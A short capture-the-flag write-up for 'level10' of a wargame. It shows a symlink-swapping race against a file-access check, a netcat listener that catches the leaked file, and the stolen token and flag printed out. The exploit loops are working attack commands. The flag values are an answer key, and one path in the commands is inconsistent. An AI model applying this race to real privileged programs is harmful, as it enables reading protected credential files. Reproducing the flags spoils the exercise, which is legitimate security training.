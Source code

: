 # level10

- level10 is a client that read the file and send it if we have acces to it

- The binary is executed as the owner of the file but check who really run it to know if we have acces to the file
    ```sh
    $ ./level10 ./token 0
    You don't have access to ./token
    ```

- We can exploit the time between the check of the right and the opening of the
    file by creating a symlink to a file we have the right to read and switching
    rapidly beetween the file and the token
    ```sh
    $ touch /tmp/file
    $ while true; do
        ln -fs /home/user/level10/token /tmp/token
        ln -fs /tmp/tmp /tmp/token
      done
    ```

- Then we create our server and listen infinitly to the level10 port (6969)
    ```sh
    $ nc -k -l 0 6969
    ```

- The we start the `./level10` infinitly
    ```sh
    $ while true; do
        ./level10 /tmp/token 0
      done
    [...]
    .*( )*.
    woupa2yuojeeaaed06riuj63c
    .*( )*.
    [...]
    ```

- `$ su flag10` && `$ getflag`
    > Check flag.Here is your token : feulo4b72j7edeahuete3no7c

